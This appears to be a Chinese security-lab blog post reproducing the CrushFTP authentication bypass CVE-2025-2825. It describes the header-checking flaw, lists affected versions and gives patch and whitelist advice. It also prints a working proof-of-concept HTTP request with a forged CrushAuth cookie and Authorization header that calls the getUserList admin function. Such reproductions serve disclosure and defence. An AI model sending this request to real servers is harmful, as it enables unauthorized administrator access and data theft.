 #  【成功复现】CrushFTP身份认证绕过漏洞（CVE-2025-2825)   
原创 弥天安全实验室  弥天安全实验室   2025-04-27 12:04  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍CrushFTP 是由 CrushFTP LLC 开发的文件传输服务器软件，它的主要用途是提供安全、可靠的文件传输服务。它允许用户通过多种协议（如FTP、SFTP、HTTP、WebDAV等）安全地上传、下载和管理文件。由于CrushFTP未对请求的标头进行严格的安全检查和限制，导致未经身份验证的攻击者可以通过发送带有特定标头的请求绕过认证机制来获取管理员权限，进而执行任意内置命令，或读取服务器上的任意文件。0x02影响版本  
10.0.0 <= CrushFTP <= 10.8.3  
  
11.0.0 <= CrushFTP <= 11.3.0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCl6sEVmUgK0O4Ukiao8qHtIXAIMn4tlQSulNk0c4tDicoO3xs1wVWh189Y3mqFylfgWbSia8OOOGHlw/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCl6sEVmUgK0O4Ukiao8qHtIFhekCu9pzReEd0VmEgVvCaFVC8KoAFLzfR5v3Gr8OZHv7pxG5UD1ibA/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC 漏洞复现GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=3879 HTTP/1.1Cookie: CrushAuth=2144328282021_SNEoIvtuJjUcOklbhmfubKrFczvt3879; currentAuth=3879Host: 127.0.0.1Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/      执行payload，通过响应判断漏洞存在。3.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：临时解决：公网部署需要添加限制，允许IP白名单访问。建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！https://www.crushftp.com/download.html弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
